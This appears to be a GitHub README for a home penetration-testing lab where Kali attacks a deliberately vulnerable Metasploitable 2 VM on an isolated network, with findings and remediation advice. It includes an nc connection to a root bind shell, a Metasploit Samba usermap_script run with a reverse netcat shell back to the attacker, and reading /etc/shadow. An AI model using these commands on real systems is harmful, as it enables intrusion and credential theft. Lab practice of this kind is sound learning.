

# Home Lab: Kali + Metasploitable 2 Vulnerability Assessment

A hands-on penetration testing home lab: an isolated virtual network with Kali Linux as the
attacker and Metasploitable 2 as a deliberately vulnerable target. This repo documents the full
assessment — reconnaissance, exploitation, impact, and remediation.

> **Ethics & scope:** All testing was performed against my own Metasploitable 2 VM on an isolated
> host-only network with no route to any LAN or the internet. Metasploitable is published by Rapid7
> specifically for this kind of practice.

---

## Architecture



| Role | VM | IP | Network |
|---|---|---|---|
| Attacker | Kali Linux | 192.168.56.102 | Host-only (192.168.56.0/24) |
| Target | Metasploitable 2 | 192.168.56.101 | Host-only (isolated) |

Hypervisor: Oracle VirtualBox. Kali has a second NAT adapter for updates, disabled during attacks.
Metasploitable is host-only exclusively, so the vulnerable box is never reachable from the real
network or the internet.

---

## Methodology

1. **Reconnaissance** — host discovery and a full TCP service/version scan.
2. **Vulnerability identification** — map service versions to known CVEs.
3. **Exploitation / validation** — confirm each finding with Metasploit or netcat.
4. **Impact & remediation** — demonstrate what access is gained and how to fix it.

### Reconnaissance command

```bash
nmap -sV -sC -O -p- 192.168.56.101 -oN scan.txt
```

`-sV` service versions · `-sC` default scripts · `-O` OS detection · `-p-` all 65,535 ports ·
`-oN` save output. The scan returned 30 open ports (full list in the report).

---

## Key Findings

| # | Vulnerability | Port | CVE | Severity |
|---|---|---|---|---|
| 1 | Unauthenticated root bind shell listening on the network | 1524 | — (backdoor) | Critical |
| 2 | vsftpd 2.3.4 backdoor (smiley-face trigger) | 21 | CVE-2011-2523 | Critical |
| 3 | Samba "username map script" command injection (RCE as root) | 445 | CVE-2007-2447 | Critical |

**Outcome:** root access on the target and full credential compromise — `cat /etc/shadow` returned
every account's password hash. See the full report PDF for evidence screenshots, CVSS ratings, and
remediation per finding.

### Finding 1 — Port 1524 bind shell
```bash
nc 192.168.56.101 1524
id    # uid=0(root)
```
An unauthenticated root shell was already listening — the hallmark of a backdoor / post-compromise
implant.

### Finding 2 — vsftpd 2.3.4 backdoor (CVE-2011-2523)
Confirmed vulnerable via the `220 (vsFTPd 2.3.4)` banner and Metasploit's automatic check. This
version shipped with a backdoored source package in 2011 — a classic supply-chain compromise.

### Finding 3 — Samba username map script (CVE-2007-2447)
```
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
set payload cmd/unix/reverse_netcat
exploit
```
Unsanitized input in the username field is executed as a shell command, yielding a root reverse
shell. Reading `/etc/shadow` proved complete credential compromise.

---

## Remediation (summary)

1. **Patch / upgrade** outdated services (vsftpd, Samba) to supported, integrity-verified releases.
2. **Remove backdoors and unused services** — the 1524 shell and legacy r-services should not exist.
3. **Harden configuration** — disable the Samba `username map script` option; enforce SMB signing.
4. **Segment the network** so exposed services aren't reachable from untrusted zones.
5. **Monitor** — baseline listening ports and alert on unexpected services; feed logs to a SIEM.

---

## Lessons Learned

- A `cmd/unix` command shell has **no prompt** — it looks frozen but is live; Ctrl+C kills it.
- **RHOST** = target; **LHOST** = attacker IP (needed only for reverse-shell payloads).
- Not every exploit lands — the vsftpd backdoor was documented as *confirmed vulnerable via version
  + validated check* rather than forcing a shell, which is how real assessments handle it.
- Getting root is the start; demonstrating **impact** (`/etc/shadow`) is what matters in a report.
- Network **isolation** held throughout — the vulnerable target was never exposed.

---

## Repo contents

```
.
├── README.md
├── report.pdf            # full vulnerability assessment report with evidence
├── scan.txt              # raw nmap output
└── images/               # screenshots + network diagram
```

## Next step

Pair this red-team project with a blue-team one: stand up a SIEM (Wazuh or Splunk) and detect these
same attacks — turning "I can attack" into "I can attack *and* defend."
